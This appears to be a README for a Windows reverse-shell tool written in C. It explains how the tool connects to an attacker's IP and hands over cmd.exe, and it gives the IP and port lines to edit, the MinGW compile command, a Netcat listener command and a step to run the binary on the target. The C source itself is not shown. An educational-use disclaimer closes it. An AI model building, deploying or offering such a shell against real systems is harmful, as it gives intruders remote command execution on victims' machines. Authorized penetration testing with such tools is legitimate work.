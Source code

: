 # 🐚 Windows Reverse Shell (TCP)

This C program establishes a **reverse TCP shell** from a Windows machine to a remote attacker's IP. It creates a socket connection and spawns `cmd.exe`, redirecting all input/output through the socket — allowing the attacker to run commands on the victim's machine.

---

## 📜 Description

The reverse shell leverages:

- Winsock2 for socket programming
- `CreateProcessA()` to spawn `cmd.exe`
- Socket redirection for STDIN, STDOUT, and STDERR

This is commonly used in penetration testing to demonstrate command execution post-exploitation.

---

## ⚙️ Features

- ✅ Native Windows C code
- ✅ Uses Windows APIs (`winsock2`, `windows.h`)
- ✅ Redirects input/output to a TCP socket
- ✅ Lightweight and low-footprint

---

## 🚀 Usage

### 1. Edit IP and Port

Modify the following lines in `reverse_shell.c`:

```c
char ip_addr[] = "1.1.1.1"; // Change to your listener IP
int port = 8081;            // Change to your desired port
```

---

### 2. Compile the Code

Use MinGW or any Windows-compatible compiler:

```bash
x86_64-w64-mingw32-gcc reverse_shell.c -o reverse_shell.exe -lws2_32
```

---

### 3. Start a Listener

On the attacker's machine, start a Netcat listener:

```bash
nc -lvnp 8081
```

---

### 4. Execute

Run `reverse_shell.exe` on the target Windows machine. Once executed, the shell will connect back to your listener.


## ⚠️ Disclaimer

> This project is intended for **educational purposes** and **authorized penetration testing** only. Unauthorized use of this tool on networks or systems you do not own or have permission to test is **illegal** and unethical. Use responsibly.

---

